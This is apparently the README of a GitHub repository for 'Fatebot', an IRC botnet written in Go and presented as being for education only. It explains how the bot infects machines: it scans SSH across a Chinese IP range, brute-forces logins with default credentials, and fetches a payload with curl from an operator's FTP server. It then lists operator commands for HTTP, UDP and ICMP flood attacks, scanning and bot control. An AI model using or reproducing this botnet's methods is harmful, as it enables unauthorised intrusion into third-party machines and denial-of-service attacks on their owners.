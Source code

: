 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.2a
This is my first IRC botnet for launch ddos attack, Write on Go language. For education purpose only. Please test it in your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="media/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more or change it, if you want.)</strong>
This botnet use "curl" to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range(1-5), And comment a function of running session.(That why bot is not join The server.)</strong>
<img src="media/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood. Mainly DDoS function is on <strong>The Application layer</strong>.

<img src="media/posttraffic.png" alt="http post flood, dos example">

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
